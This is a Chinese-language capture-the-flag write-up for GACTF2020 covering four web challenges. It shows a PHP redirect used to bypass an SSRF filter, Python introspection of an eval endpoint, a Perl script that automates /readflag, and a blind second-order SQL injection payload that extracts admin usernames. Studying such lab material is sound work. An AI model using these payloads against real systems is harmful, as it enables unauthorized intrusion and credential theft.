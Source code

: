 ```yaml
---
title: GACTF2020
author: ch3n9w
typora-root-url: ../
date: 2020-08-29 15:49:36
categories: CTF
---
```






## simpleflask



和以往的flask不一样的地方在于, 这里是经过更新后的flask, 计算pin码的方式已经和以前不一样了, 参考 https://www.chainnews.com/articles/898433701852.htm, 不过问题不大,就把machine-id拼接在docker那一串东西的前面就可以了, 需要注意的是每十分钟重启时候的机器mac地址是会变化的.

<!--more-->

![image-20211114141224625](image-20211114141224625.png)

## ezflask



点击看到代码

```python
# -*- coding: utf-8 -*- 
from flask import Flask, request 
import requests 
from waf import * 
import time 

app = Flask(__name__) 
@app.route('/ctfhint') 
def ctf(): 
    hint =xxxx # hints 
    trick = xxxx # trick 
    return trick 
    
@app.route('/') 
def index(): 
    # app.txt 
    
@app.route('/eval', methods=["POST"]) 
def my_eval(): 
    # post eval 
    
@app.route(xxxxxx, methods=["POST"]) # Secret 
def admin(): 
    # admin requests 
    # 
if __name__ == '__main__': 
    app.run(host='0.0.0.0',port=8080)
```

发现``" ' [ ( ``都被过滤了, 简直离谱

```
eval=ctf.__globals__
```

来查看ctf函数所处在的命名空间下所能接触到的变量和函数

```
{'my_eval': <function my_eval at 0x7fb525c35dd0>, 'app': <Flask 'app_1'>, 'waf_eval': <function waf_eval at 0x7fb525c35c50>, 'admin': <function admin at 0x7fb525b7f650>, 'index': <function index at 0x7fb525c35d50>, 'waf_ip': <function waf_ip at 0x7fb525c35b50>, '__builtins__': <module '__builtin__' (built-in)>, 'admin_route': '/h4rdt0f1nd_9792uagcaca00qjaf', '__file__': 'app_1.py', 'request': <Request 'http://124.70.206.91:10003/eval' [POST]>, '__package__': None, 'Flask': <class 'flask.app.Flask'>, 'ctf': <function ctf at 0x7fb525c35cd0>, 'waf_path': <function waf_path at 0x7fb525c35bd0>, 'time': <module 'time' from '/usr/local/lib/python2.7/lib-dynload/time.so'>, '__name__': '__main__', 'requests': <module 'requests' from '/usr/local/lib/python2.7/site-packages/requests/__init__.pyc'>, '__doc__': None}
```

发现了admin_route, 然后那里是可以发起一个对外请求的, 经过测试发现``127.0.0.1``和``0.0.0.0``及其变形都会触发警告并退出, 盲猜这里考察的是302重定向, 在服务端那里写下

```php
<?php
    header("Location: http://127.0.0.1:8080/");
?>
```

ssrf成功, 但是下一步干嘛呢? 

``__code__``, 函数的代码块

``__code__.co_consts`` 代码块中的所有常量的元组, 参考https://docs.python.org/3/library/inspect.html

```
eval=ctf.__code__.co_consts
```

```

(None, 'the admin route :h4rdt0f1nd_9792uagcaca00qjaf<!-- port : 5000 -->', 'too young too simple')
```

然后通过302重定向访问127.0.0.1:5000, 是一个常规的ssti,再次重定向

![image-20211114141232648](image-20211114141232648.png)



![image-20211114141239286](image-20211114141239286.png)



## XWIKI

找到了CVE, 然后根据例子反弹shell后发现有一个二进制文件, 会给你很多选择题比较大小的, 到这里就做不出来了, 不过看到其他选手的脚本, 这里记录一下.

```perl

use strict;
use IPC::Open3;

my $pid = open3( \*CHLD_IN, \*CHLD_OUT, \*CHLD_ERR, '/readflag' )
  or die "open3() failed $!";

my $r;
$r = <CHLD_OUT>;
print "$r";
$r = <CHLD_OUT>;
print "$r";
$r = eval "$r";
print "$r\n";
print CHLD_IN "$r\n";
$r = <CHLD_OUT>;
print "$r";
$r = <CHLD_OUT>;
print "$r";
```



## carefuleyes

在改名的地方进行二次注入

```
sd' or if(substr((select group_concat(username) from user where privilege='admin'),1,1)='X',exp(5000),1)#
```

得到用户名和密码之后进行序列化登陆就可以了

![image-20211114141249521](image-20211114141249521.png)
